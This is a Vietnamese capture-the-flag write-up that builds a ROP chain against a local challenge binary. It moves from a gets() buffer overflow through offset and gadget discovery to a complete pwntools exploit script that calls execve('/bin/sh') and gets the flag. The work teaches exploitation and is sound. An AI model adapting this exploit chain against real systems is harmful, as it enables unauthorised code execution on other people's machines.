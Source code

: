 # ROPchain_chall_demo_file
* Gadget là những đoạn mã ngắn trong chương trình kết thúc bằng lệnh `ret` (return).
* ROP là kỹ thuật khai thác cho phép thực thi mã thông qua việc sắp xếp các địa chỉ của các gadget có sẵn trong chương trình. Kỹ thuật này thường được dùng để vượt qua các biện pháp bảo mật như NX (Non-Executable Stack).

**Ta có một file binary** `chall4`

## Decompile bằng ida64
```bash
ida64 chall4
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  char v8[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  printf((unsigned int)"Say something: ", (_DWORD)argv, v3, v4, v5, v6, v8[0]);
  gets(v8);
  return 0;
}
```
* Xuất hiện lỗi buffer overflow do hàm gets có thể nhập vào không giới hạn.

## Kiểm tra chế độ bảo vệ
```bash
checksec chall4
```
**Kết quả:**
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
```
- Ta thấy trong chương trình không có lớp bảo vệ canary nhưng có thể do lỗi của hàm `checksec`.
- Các cơ chế bảo vệ: no PIE, NX enabled (vì vậy phải dùng ROP).
## Tính offset tới return address
* Đặt break point và nhập input, kiểm tra giá trị save rip
```
pwndbg> cyclic  -l 0x616161616161616c
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```
## Tìm gadgets để kiểm soát thanh ghi
```bash
ROPgadget --binary chall4 | grep "pop rdi"
ROPgadget --binary chall4 | grep "pop rsi"
ROPgadget --binary chall4 | grep "pop rdx"
ROPgadget --binary chall4 | grep "pop rax"
ROPgadget --binary chall4 | grep "syscall"
```
**Kết quả tìm được**
```python
pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
pop_rax = 0x0000000000401001
syscall = 0x000000000040132e
```

* Do ta đang tạo shell bằng các gadget assembly, chúng không có lệnh `system("/bin/sh")` như ở libc, vì vậy ta sẽ thực thi lệnh `execve("/bin/sh", 0, 0)`. Do đó ta cần thiết lập thanh ghi rdi làm con trỏ trỏ tới chuỗi "/bin/sh", rsi và rdx là null.

## Xây dựng payload
```python
payload = b'A' * 88
```
* Tìm một địa chỉ stack có quyền write:
```bash
vmmap
```
>0x406000           0x408000 rw-p     2000    5000 chall4
```bash
x/50xg 0x406000
```
> 0x406e00:       0x0000000000000000      0x0000000000000000
* Ta có được
```python
rw_section = 0x406e00
```

* Xây dựng arg cho `gets` để nhập vào chuỗi "/bin/sh"
```python
payload += p64(pop_rdi) + p64(rw_section) + p64(exe.sym['gets'])
```
* Gửi đi payload và gửi vào chuỗi "/bin/sh" :
```python
p.sendlineafter(b'something: ', payload)
p.sendline(b'/bin/sh')
```
* Thực thi hàm `execve`:
```python
payload += p64(pop_rdi) + p64(rw_section)
```
* Thiết lập arg2 và arg3
```python
payload += p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0)    
```
* Thiết lập syscall number của hàm `execve` và thực hiện gọi hàm
```python
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
```
* Thực hiện debug động ta thấy sau khi set null cho arg 3 là rdx, ta phải thêm cho payload 0x28 byte nữa để nhảy tới pop_rax. Như vậy script đầy đủ như sau:
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./chall4', checksec=False)

p = process('./chall4')

pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
pop_rax = 0x0000000000401001
syscall = 0x000000000040132e
rw_section = 0x406e00


payload = b'A' * 88
payload += p64(pop_rdi) + p64(rw_section) + p64(exe.sym['gets'])


payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0)
payload += b'b' * 0x28
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)


p.sendlineafter(b'something: ', payload)
p.sendline(b'/bin/sh')

p.interactive()
```
### Chạy thử
```bash
./solve4.py
```
```bash
$ ls | cat Flag.txt
```
* Kết quả:
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH} $
```







